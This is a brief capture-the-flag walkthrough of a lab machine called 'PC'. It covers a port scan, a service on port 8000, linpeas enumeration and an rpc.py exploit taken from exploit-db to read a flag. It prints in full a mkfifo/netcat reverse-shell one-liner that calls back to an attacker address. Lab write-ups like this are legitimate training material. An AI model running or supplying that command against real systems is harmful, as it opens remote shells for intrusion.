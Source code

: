 # PC

So i start by scanning the target and see an interesting service on port 8000:

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

I input:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.245 7878 >/tmp/f
```

and get a shell:

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Not very useful but let's see so i run a linpeas:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Ok so i look up rpc.py and find some exploits:

{% embed url="https://www.exploit-db.com/exploits/50983?source=post_page-----7619983c7d63---------------------------------------" %}

so i wget the script on the target machine and run it with the command:

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

and after running it we can see flag.txt in our tmp file, could've also gotten a reverse shell but got lazy
